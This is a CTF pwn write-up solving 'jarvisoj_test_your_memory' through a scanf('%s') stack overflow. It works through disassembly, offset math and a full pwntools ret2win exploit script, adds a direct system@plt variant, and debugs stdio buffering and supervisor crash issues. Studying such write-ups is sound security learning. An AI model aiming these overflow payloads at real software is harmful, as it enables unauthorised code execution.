







<div align="center">

# 🧠 jarvisoj_test_your_memory

### Pwn Writeup · BUUCTF / DASCTF · `ret2win` with a Built-In Leak — and a Lesson in stdio Buffering


*The binary hands you the exact address you need and even prints it for you. The real challenge is surviving your own exploit long enough for the output to reach you.*

</div>

---

## 📌 TL;DR

No PIE, no canary, a vulnerable `scanf("%s", ...)`, and a `win_func` that calls `system()` with a caller-supplied argument — a textbook **ret2win with argument**. The twist: the binary itself leaks the exact address of the string `"cat flag"` via a global `hint` variable, printed in plain hex before the vulnerable read even happens. The real difficulty wasn't finding the bug or the addresses — it was two separate, non-obvious failure modes that made a *correct* exploit appear broken: a `printf`-without-newline prompt that defeats naive `recvuntil` synchronization under piped stdio, and a remote process supervisor that tears down the entire process group (killing buffered output) if the exploited binary crashes even *after* the payload command has already run.

```
payload = 19 bytes padding + 4 bytes junk (saved EBP)
        + p32(win_func) + p32(main) + p32(&"cat flag")
```

| | |
|---|---|
| **Binary** | `jarvis` — ELF 32-bit, dynamically linked, No PIE, not stripped |
| **Bug** | `scanf("%s", buf)` — no width specifier, unbounded write into an 11-byte buffer |
| **Protections** | Canary **off** · NX **on** · PIE **off** · Partial RELRO |
| **The gift** | `win_func(char *cmd) { system(cmd); }` — planted, never called normally |
| **The built-in leak** | A global `hint` pointer, printed in hex, already holding `&"cat flag"` |
| **Real obstacles** | stdio buffering under non-TTY pipes · a supervisor that kills output on crash |
| **Result** | `cat flag`'s output, retrieved reliably from both local and remote instances |

---

## 🗺️ Table of Contents

1. [Static Recon](#1--static-recon)
2. [Dynamic Recon — the Runtime Hint](#2--dynamic-recon--the-runtime-hint)
3. [`main` — the Distractor Logic](#3--main--the-distractor-randsrand-logic)
4. [`mem_test` — the Vulnerable Function](#4--mem_test--the-vulnerable-function)
5. [Reconstructed C Source](#5--reconstructed-c-source)
6. [Stack Layout & Offset Calculation](#6--stack-layout--offset-calculation)
7. [Exploit Construction — Reasoning](#7--exploit-construction--reasoning)
8. [Exploit Script](#8--exploit-script)
9. [Alternative: Skipping `win_func` Entirely](#9--alternative-technique-skipping-win_func-entirely-direct-ret2system)
10. [Debugging Narrative](#10--debugging-narrative-what-actually-went-wrong-step-by-step)
11. [Was GDB Necessary?](#11--was-gdb-necessary)
12. [Challenge Designer's Mindset](#12--challenge-designers-mindset)
13. [Quiz — Self-Check](#quiz--self-check)

---

## 🧭 Exploit Flow at a Glance



---

## 1. 🔎 Static Recon

| Field | Value |
|---|---|
| Binary | `jarvis` |
| Arch | ELF 32-bit LSB, Intel 80386 |
| Linking | Dynamically linked, not stripped |
| Protections | Partial RELRO, No Canary, NX enabled, No PIE (`0x8048000`) |

```
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x8048000)
Stripped:   No
```

No PIE + no canary + a vulnerable `scanf("%s", ...)` + a `win_func` that calls `system()` — this is a classic **ret2win with argument** scenario, with one extra twist: the binary itself leaks the address we need.

### Interesting symbols

```
nm -C ./jarvis | grep " T "
08048677 T main
080485d0 T mem_test
080485bd T win_func
```

`win_func` is not called anywhere in normal program flow — it exists purely as a ROP/ret2win target planted by the challenge author.

### `win_func`

```asm
080485bd <win_func>:
 80485bd: push   %ebp
 80485be: mov    %esp,%ebp
 80485c0: sub    $0x18,%esp
 80485c3: mov    0x8(%ebp),%eax     ; eax = first argument (ebp+8)
 80485c6: mov    %eax,(%esp)        ; push it as system()'s argument
 80485c9: call   8048440 <system@plt>
 80485ce: leave
 80485cf: ret
```

This is a thin wrapper: `void win_func(char *cmd) { system(cmd); }`. Whatever address we hand it as the "first stack argument" gets executed as a shell command.

### `.rodata` strings of interest

```
objdump -s -j .rodata ./jarvis
80487e0 63617420 666c6167 000a7768 61743f3f  cat flag..what??
80487f0 3f3f203a 20003078 2578200a 00636666  ?? : .0x%x ..cff
```

- `0x80487e0` → `"cat flag"` (null-terminated) — exactly the command we want `system()` to run.
- `0x8048817` → `"%s"` (confirmed below, inside `.rodata` between the `"> "` and `"cff ..."` strings).

Because the binary has **No PIE**, every one of these addresses is a fixed, load-time-constant value — no leak needed for them.

---

## 2. 🎲 Dynamic Recon — the Runtime Hint

Running the binary locally:

```
------Test Your Memory!-------

XSBunIyyIK
what???? :
0x80487e0
cff flag go go go ...

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    1483 segmentation fault (core dumped)  ./jarvis
```



Two things stand out immediately:
1. A random 10-character string (`XSBunIyyIK`) is printed and must apparently be echoed back.
2. A raw hex address, `0x80487e0`, is printed — which (per the `.rodata` dump above) is **the exact address of `"cat flag"`**.

So the binary is handing us the win-condition argument on a silver platter. We don't even need to compute it — we just read it off stdout (or, since No PIE makes it constant, hardcode it).

---

## 3. 🎰 `main` — the Distractor (`rand`/`srand`) Logic

```asm
08048677 <main>:
 8048677: push   %ebp
 8048678: mov    %esp,%ebp
 804867a: and    $0xfffffff0,%esp   ; stack alignment
 804867d: sub    $0x30,%esp
 8048680: movl   $0xa,0x28(%esp)     ; loop counter limit = 10
 8048688: movl   $0x804883c,(%esp)
 804868f: call   8048430 <puts@plt>  ; print banner
 8048694: movl   $0x0,(%esp)
 804869b: call   8048420 <time@plt>  ; time(NULL)
 80486a0: mov    %eax,(%esp)
 80486a3: call   8048460 <srand@plt> ; srand(time(NULL))
 80486a8: movl   $0x0,0x2c(%esp)     ; i = 0
 80486b0: jmp    80486ee <main+0x77>

 80486b2: call   8048490 <rand@plt>  ; rand()
 80486b7: mov    %eax,%ecx
 80486b9: mov    %ecx,%eax
 80486bb: shr    %eax
 80486bd: mov    $0x84210843,%edx
 80486c2: mul    %edx
 80486c4: mov    %edx,%eax
 80486c6: shr    $0x4,%eax
 80486c9: add    %eax,%eax
 80486cb: mov    %eax,%edx
 80486cd: shl    $0x5,%edx
 80486d0: sub    %eax,%edx
 80486d2: mov    %ecx,%eax
 80486d4: sub    %edx,%eax            ; eax = rand() % 62  (magic-number division)
 80486d6: movzbl 0x8048860(%eax),%eax ; index into the "0123...xyz" charset table
 80486dd: lea    0x1d(%esp),%ecx
 80486e1: mov    0x2c(%esp),%edx
 80486e5: add    %ecx,%edx
 80486e7: mov    %al,(%edx)           ; buf[i] = charset[rand() % 62]
 80486e9: addl   $0x1,0x2c(%esp)      ; i++
 80486ee: mov    0x2c(%esp),%eax
 80486f2: cmp    0x28(%esp),%eax
 80486f6: jl     80486b2              ; loop while i < 10

 80486f8: lea    0x1d(%esp),%eax
 80486fc: mov    %eax,0x4(%esp)
 8048700: movl   $0x8048817,(%esp)    ; "%s"
 8048707: call   8048410 <printf@plt> ; printf("%s", random_buf)  -> this is the leaked hint
 804870c: lea    0x1d(%esp),%eax
 8048710: mov    %eax,(%esp)
 8048713: call   80485d0 <mem_test>   ; mem_test(random_buf)
 8048718: mov    $0x0,%eax
 804871d: leave
 804871e: ret
```

This builds a random 10-char alphanumeric string using `charset[rand() % 62]` (the `0x84210843` multiply/shift sequence is the compiler's branchless implementation of `% 62`), prints it, and passes a pointer to it into `mem_test()` as the argument. This random string is a **red herring for exploitation** — it only matters for the "memory game" logic (an `strncmp` check inside `mem_test`) and has zero bearing on how the overflow or the win-condition works.

---

## 4. 🐛 `mem_test` — the Vulnerable Function

```asm
080485d0 <mem_test>:
 80485d0: push   %ebp
 80485d1: mov    %esp,%ebp
 80485d3: sub    $0x28,%esp            ; 40 bytes of locals

 80485d6: movl   $0xb,0x8(%esp)        ; memset(..., ..., 11)
 80485de: movl   $0x0,0x4(%esp)        ; memset(..., 0, ...)
 80485e6: lea    -0x13(%ebp),%eax      ; buf = ebp - 0x13
 80485e9: mov    %eax,(%esp)
 80485ec: call   8048480 <memset@plt>  ; memset(buf, 0, 11)  -- zero-init only, NOT a size cap

 80485f1: movl   $0x80487e9,(%esp)
 80485f8: call   8048430 <puts@plt>    ; puts("what???? : ")

 80485fd: mov    0x804a040,%eax        ; eax = hint  (global var @ .data)
 8048602: mov    %eax,0x4(%esp)
 8048606: movl   $0x80487f6,(%esp)     ; "0x%x \n"
 804860d: call   8048410 <printf@plt>  ; printf("0x%x \n", hint)  <-- leaks win_func's argument

 8048612: movl   $0x80487fd,(%esp)
 8048619: call   8048430 <puts@plt>    ; puts("cff flag go go go ...")

 804861e: movl   $0x8048814,(%esp)
 8048625: call   8048410 <printf@plt>  ; printf("> ")   <-- NOTE: no trailing \n !

 804862a: lea    -0x13(%ebp),%eax      ; buf = ebp - 0x13 (same buffer)
 804862d: mov    %eax,0x4(%esp)
 8048631: movl   $0x8048817,(%esp)     ; "%s"
 8048638: call   80484a0 <__isoc99_scanf@plt>   ; scanf("%s", buf)   <-- UNBOUNDED WRITE

 804863d: movl   $0x4,0x8(%esp)
 8048645: mov    0x8(%ebp),%eax
 8048648: mov    %eax,0x4(%esp)
 804864c: lea    -0x13(%ebp),%eax
 804864f: mov    %eax,(%esp)
 8048652: call   80484b0 <strncmp@plt> ; strncmp(buf, random_hint, 4)
 8048657: test   %eax,%eax
 8048659: je     8048669
 804865b: movl   $0x804881a,(%esp)
 8048662: call   8048430 <puts@plt>    ; puts("cff flag is failed!!")
 8048667: jmp    8048675
 8048669: movl   $0x8048830,(%esp)
 8048670: call   8048430 <puts@plt>    ; puts("good job!!")
 8048675: leave
 8048676: ret
```

### The bug


- `buf` sits at `ebp - 0x13` (19 bytes below the saved EBP).
- `memset(buf, 0, 11)` only zeroes 11 bytes — it says nothing about how much `scanf` is allowed to write later. This is purely cosmetic initialization, not a bounds check.
- `scanf("%s", buf)` has **no width specifier** (e.g. `%20s`), so it will happily read and write as many non-whitespace bytes as we send, straight past the 19-byte buffer, through the saved EBP, and into the return address and beyond.

### `0x804a040` — where does the leaked hex number come from?

```c
char *hint;   // global pointer, lives at 0x804a040
```

`hint` is a global variable (visible in `strings` output) holding a pointer. At `mem_test`'s start, the program dereferences `0x804a040` and prints its *contents* with `"0x%x \n"`. That content is `0x80487e0` — the address of the `"cat flag"` string in `.rodata`. In other words, **the author scripted the binary to print exactly the argument we need for `win_func`**, presumably as an in-challenge "hint" mechanic, but it doubles as a built-in leak for exploitation (though since the binary is No PIE, this value never changes between runs anyway and can simply be hardcoded).

---

## 5. 🧱 Reconstructed C Source

Putting the disassembly back together, the original source is approximately:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

char *hint = "cat flag";               // global @ 0x804a040

void win_func(char *cmd) {
    system(cmd);
}

void mem_test(char *random_hint) {
    char buf[11];                      // real usable size; compiler padded frame to 0x13 to buf
    memset(buf, 0, 11);

    puts("what???? : ");
    printf("0x%x \n", hint);           // leaks &"cat flag"
    puts("cff flag go go go ...");

    printf("> ");
    scanf("%s", buf);                  // VULNERABLE: unbounded write into an 11-byte buffer

    if (strncmp(buf, random_hint, 4) == 0)
        puts("good job!!");
    else
        puts("cff flag is failed!!");
}

int main(void) {
    char charset[] = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz";
    char random_buf[10 + 1];           // +1 implied by frame layout / null terminator space
    int i;

    puts("\n\n\n------Test Your Memory!-------\n");

    srand(time(NULL));
    for (i = 0; i < 10; i++)
        random_buf[i] = charset[rand() % 62];

    printf("%s", random_buf);
    mem_test(random_buf);

    return 0;
}
```

Notes on the reconstruction:
- The declared buffer in `mem_test` is realistically `char buf[11]` (matching the `memset(buf, 0, 11)` call), but the **stack distance to the saved EBP** is `0x13` (19) bytes — the extra ~8 bytes are ordinary compiler stack-frame padding/alignment, not part of the logical buffer. This is exactly why we compute the overflow offset from the `lea` instruction's literal displacement rather than from the `memset` size.
- `hint` is almost certainly declared and initialized as `char *hint = "cat flag";` at file scope, which is why it lives in `.data` as a pointer rather than being an inline array.
- The `% 62` modulo in the disassembly is the compiler's optimized (multiply-shift) implementation of `rand() % 62`, used to index into the 62-character alphanumeric charset.

---

## 6. 📏 Stack Layout & Offset Calculation

`mem_test` uses a standard frame pointer (`push %ebp; mov %esp,%ebp`), so the classic formula applies:



```
padding = (buffer_address_offset) + saved_ebp_size
        = 0x13 (19 decimal)        + 4
        = 23 bytes to reach the return address
```

Layout from the start of `buf`:

```
[ 19 bytes ] -> fills buf up to ebp
[ 4 bytes  ] -> overwrites saved EBP (junk, unused after this frame)
[ 4 bytes  ] -> overwrites return address -> win_func (or system@plt, see Section 9)
[ 4 bytes  ] -> the hijacked function's own "return address" slot (fake_ret)
[ 4 bytes  ] -> the hijacked function's argument (first stack arg, since this is cdecl)
```

### Why the extra "fake_ret" slot?

When we hijack a `ret` to jump into a function as if it were `call`ed, the stack must look exactly like it does right after a real `call` instruction:



```
[esp+0] -> return address (where that function's own `ret` will jump to)
[esp+4] -> argument 1 (cdecl passes args on the stack, not in registers)
```

`win_func` reads its argument from `ebp+8`, which lines up with `esp+4` at entry — so this slot *must* be present or the argument read will be off by 4 bytes and we'll be handing `system()` garbage.

### `%s` and why it reads past any "intended" size

`scanf("%s", ...)` reads until the first whitespace/newline, with **no length limit**, writing every byte into the destination buffer regardless of how large that buffer actually is. This is the root enabler of the overflow — the `memset(buf, 0, 11)` earlier has nothing to do with it.

---

## 7. 🎯 Exploit Construction — Reasoning

Final payload, in order:

```
[19 bytes padding]   -> fill buf up to saved EBP
[4 bytes junk]        -> saved EBP (don't care)
[p32(win_func)]        -> 0x080485bd, overwritten return address
[p32(safe_ret)]        -> return address for win_func itself
[p32(&"cat flag")]     -> 0x080487e0, win_func's argument
```

### Choosing `fake_ret` carefully (the actual stumbling block of this challenge)



The first iteration of the exploit used junk (`b"C"*4` → `0x43434343`) for the slot after `win_func`'s address. This "worked" in the sense that `system("cat flag")` *did* execute — but:

1. `system()` blocks until its child process (`sh -c "cat flag"`) finishes and writes its output.
2. `win_func` then executes `leave; ret`, and `ret` jumps to the garbage address `0x43434343` → **SIGSEGV**.
3. Locally, nothing else interferes: the kernel still delivers whatever the child process already wrote to the pipe, even though the parent (`jarvis`) just crashed.
4. On the remote instance, the service was wrapped with a `timeout` supervisor. The moment it observed the crashed/core-dumped child, it aggressively tore down the **entire process group** — including the just-spawned `sh -c "cat flag"` — and closed the connection. This happened fast enough that **none of the output buffered by `jarvis` itself (banner, hint, prompt) nor the `cat flag` output reliably made it back across the socket**; all we saw was the supervisor's own `"timeout: the monitored command dumped core"` message.

### Fix

Replace the junk return value with a **valid address inside the binary** so the process doesn't crash immediately after winning — giving all buffered output (including the just-executed `system()` call's output) time to actually flush and reach the socket before anything gets torn down:

```python
safe_ret = 0x08048677   # address of main()
```

Returning into `main` re-enters normal (harmless) program flow; whatever happens afterwards no longer matters, since our target command already ran and its output was already written to the pipe by that point.

---

## 8. 🚀 Exploit Script

```python
from pwn import *

context.arch = 'i386'

elf = ELF('./jarvis')

# host, port = 'TARGET_HOST', TARGET_PORT
# p = remote(host, port, ssl=True)
p = process('./jarvis')   # swap for remote() against the live instance

win_func      = 0x080485bd   # win_func()
cat_flag_str  = 0x080487e0   # address of "cat flag" in .rodata (leaked / constant, No PIE)
safe_ret      = 0x08048677   # main() — avoids a crash-before-flush on supervised remotes

payload  = b'A' * 19          # padding up to saved EBP
payload += b'B' * 4           # saved EBP (unused)
payload += p32(win_func)      # hijacked return address -> win_func
payload += p32(safe_ret)      # win_func's own return address -> back into main()
payload += p32(cat_flag_str)  # win_func's argument -> system("cat flag")

p.sendline(payload)
p.interactive()
```

**Note:** no `recvuntil(b'> ')` is used before sending. The `"> "` prompt is printed with `printf` (no trailing `\n`), which means under non-TTY (piped) stdout, glibc switches to fully-buffered mode and that prompt never reaches us before the buffer naturally flushes (at program exit or buffer-full). Waiting for it would block forever even though the program really is sitting at `scanf`. Since we know the exact program state at that point, we send the payload blind instead.

---

## 9. 🔁 Alternative Technique: Skipping `win_func` Entirely (Direct `ret2system`)

`win_func` is nothing more than a one-line pass-through: `system(cmd)`. It performs no extra setup, validation, or side effect of its own. Whenever a "win" function in a binary is this thin — a bare wrapper around a libc call that's already present in the PLT — it's worth asking whether the wrapper is even necessary, or whether the hijacked return address can point **directly at the real function** (here, `system@plt`) instead.



This works because, from the CPU's point of view, jumping into `system@plt` via a corrupted `ret` looks identical to a normal `call system` instruction: it just needs the same two stack slots waiting for it (a return address, then the first argument):

```
[esp+0] -> fake return address (where system() will "return" to)
[esp+4] -> argument 1 (the command string)
```

Since `win_func`'s frame setup contributed nothing except forwarding its own argument into this exact layout, removing it changes nothing structurally — it just removes one indirection:

```python
payload  = b'A' * 23            # 19 (buffer) + 4 (saved EBP) — straight to the return address
payload += p32(0x8048440)       # system@plt directly, instead of win_func
payload += p32(0x08048677)      # fake_ret -> main() (same reasoning as Section 7)
payload += p32(0x080487e0)      # argument -> "cat flag"
```

This is a specific, minimal case of the broader **ret2system / ret2libc** family of techniques: instead of relying on a challenge-planted helper function, you invoke a library function that's already linked into the binary (visible in `.plt`/`.got.plt`) directly, supplying its arguments yourself via the fake stack frame. It generalizes beyond this challenge: any time `checksec`/`objdump` shows a dangerous function (`system`, `execve`, `popen`, etc.) already present in the PLT, a `ret2win`-style function is a convenience, not a requirement — the real target is always the libc function underneath it.

One caution worth internalizing from this challenge specifically: it's tempting to pair this shortcut with a "don't care" junk value for `fake_ret`, since `.rodata` data addresses aren't executable (NX is on) and will also SIGSEGV on return, exactly like an arbitrary garbage value would. That still carries the same risk described in Section 7 — a supervised remote service can tear down the process group (and any not-yet-flushed output, including a just-spawned child process's output) before the data reaches the socket. The reliable version of this technique still uses a **valid** `fake_ret` (such as `main`), combining the simplicity of skipping `win_func` with the determinism of not crashing immediately afterward.

---

## 10. 🪤 Debugging Narrative (what actually went wrong, step by step)

This challenge's main difficulty wasn't the memory corruption math — it was diagnosing *why a correct payload produced no visible output*. Steps taken:

1. **`recvuntil(b'> ')` hung forever**, both locally and remotely.
   → Root cause: `"> "` has no `\n`, and stdout is fully-buffered when not attached to a TTY. Fix: drop the `recvuntil`, send blind, and inspect raw output with `recv(timeout=N)` + `context.log_level = 'debug'` instead.
2. Once sending blind, the **local** run segfaulted immediately after printing everything up to `"cff flag go go go ..."`, with no `cat flag` output and no `"good job!!"` message.
   → Root cause (partially): no `flag` file exists in the local testing directory, so `cat flag` itself errors out. This did *not* fully explain the missing `jarvis`-side output, though.
3. **Remote** attempts first appeared to hang entirely (`recv(timeout=3)` returned `b''`). A raw `ncat --ssl` test independently confirmed the remote instance itself was unresponsive at that moment — unrelated to the exploit logic, just transient server-side flakiness.
4. After reconnecting, a byte-level `send` debug log confirmed the **payload layout itself was correct** (19×`A`, 4×`B`, correct `p32(win_func)`, 4×`C`, correct `p32(cat_flag_str)`), ruling out an offset/packing bug.
5. The actual remote response was the supervisor's `"timeout: the monitored command dumped core"` — pointing squarely at the crash-before-flush problem described in Section 7.
6. Swapping the junk `fake_ret` for `p32(0x08048677)` (`main`) immediately resolved it: the flag was returned cleanly on the next attempt.



**Takeaway:** a `ret2win`-style exploit that crashes immediately after achieving code execution can still fail in practice if the target environment tears down the process (and any buffered output, including output from processes it just spawned) faster than the kernel can deliver that data back over the wire. Always prefer returning to a valid, inert location over leaving a dangling/junk return address, especially against remote, supervised services.

---

## 11. 🔬 Was GDB Necessary?

No — and it's worth understanding exactly why not, since that generalizes into a useful rule of thumb.

GDB typically earns its keep when:
- The exact buffer-to-return-address offset is unknown and needs to be found with a cyclic pattern.
- You need runtime confirmation of what value lands in EIP at the moment of a crash.
- PIE/ASLR introduces ambiguity about addresses that can only be resolved at runtime.
- You're stepping through a complex ROP chain and need to watch register state evolve.

None of that applied here:
- **No PIE** meant every address (`win_func`, `system@plt`, `"cat flag"`) was already fixed and extractable directly from `objdump`.
- The **buffer offset was stated explicitly** in the disassembly itself (`lea -0x13(%ebp),%eax`) rather than needing to be brute-forced.
- The stack frame was a single, ordinary `push %ebp` frame with no extra complexity.

**Rule of thumb:** when a binary is No PIE, not stripped, and uses an ordinary frame-pointer-based stack layout, static analysis (`objdump`/`nm`/`strings`) is usually sufficient on its own. GDB becomes necessary once the binary is stripped (function boundaries need to be found), PIE/ASLR is active (a runtime leak is required), or an exploit is failing for reasons that aren't visible from static analysis alone — which is exactly the role GDB would have played if the buffering/crash issue here had not been resolvable through protocol-level debug logging.

---

## 12. 🎓 Challenge Designer's Mindset

Reading the binary as a deliberately constructed teaching exercise, a few design choices stand out:

- **`win_func` exists purely as bait.** It's never called from `main`, has no cross-references in normal flow, and its sole purpose is to be reachable only via stack corruption — a clean, minimal ret2win-with-argument target. As shown in Section 9, it's also a thin enough wrapper that the challenge can be solved by skipping it and calling `system@plt` directly, which suggests the function is primarily a teaching scaffold rather than a load-bearing part of the vulnerability.
- **The `hint` global is a built-in leak, not an accident.** Printing `*hint` via `"0x%x \n"` hands the attacker exactly the address `win_func` needs, removing any need for an info-leak chain. This keeps the challenge squarely in "Easy" difficulty — the hard part is understanding cdecl's stack-argument convention and the fake-return-address requirement, not finding addresses.
- **The `rand()`/`srand()`/`strncmp` "memory game" flow is a structured distractor.** It occupies a large chunk of `main` and `mem_test`'s disassembly, deliberately burying the two lines that actually matter (`memset` with a fixed small size, and an unbounded `scanf("%s", ...)`) amid game logic that has no bearing on exploitability. A learner skimming for "the vulnerability" has to resist the urge to analyze the RNG math and instead focus purely on buffer size vs. input function behavior.
